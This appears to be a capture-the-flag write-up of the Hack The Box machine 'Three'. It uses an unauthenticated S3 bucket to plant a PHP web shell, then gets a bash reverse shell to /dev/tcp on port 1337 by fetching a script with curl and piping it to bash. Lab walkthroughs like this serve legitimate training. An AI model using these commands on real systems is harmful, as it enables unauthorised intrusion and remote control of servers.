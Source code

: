 # HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# _**Summary**_ 

* _in this Box will new some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it._ 

# _**NMAP**_
![](/Assets/HTB/THREE/assets/namp.png)

# _**Ports**_ 
_we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser ._ 



![](/Assets/HTB/THREE/assets/web.png)



_By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow ._

_**NOTE** : add ip of machine in **/etc/hosts**_ 

_**like that  echo "10.129.227.248 thetoppers.htb"**_  _**|sudo tee -a /etc/hosts**_

![](/Assets/HTB/THREE/assets/gobuster.png)

_we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**_

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE**  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that_ 


![](/Assets/HTB/THREE/assets/s3.png)

_The webpage only contains the perivous JSON._

_We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli**_

_First, we need to configure it using the following command. **aws configure**_

![](/Assets/HTB/THREE/assets/ls.png)

_We can list all of the S3 buckets hosted by the server by using the ls command._

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

_We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage._

_**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution._


_We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command._

**<?php system($_GET["cmd"]); ?>**

_then make file php_

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

_Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command_


**aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb**

![](/Assets/HTB/THREE/assets/shell.png)


![](/Assets/HTB/THREE/assets/result.png)

_We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try
executing the OS command id using the URL parameter **cmd**_

![](/Assets/HTB/THREE/assets/id.png)

_The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on
the specified listening port. We can obtain the tun0 IP address of our local machine using the following
command._


_Let's get a reverse shell by creating a new file shell.sh containing the following bash reverse shell payload
which will connect back to our local machine on port 1337 ._



_bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1_

_will start net cat listener by command **nc -nvlp 1337**_

_in addtion to will start http local server on port 8000 and host this bash file and we must open http server from directory which have bash file_

_by this command will start http server **python3 -m http.server 8000**_

![](/Assets/HTB/THREE/assets/httpremote.png)

_we will use **curl** to fetch the bash file and do that in browser by this **http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash**_ 

![](/Assets/HTB/THREE/assets/remote1.png)

![](/Assets/HTB/THREE/assets/flag1.png)



## _**Thanks for watching my Blog**_

### _**Mohamed Emam**_
























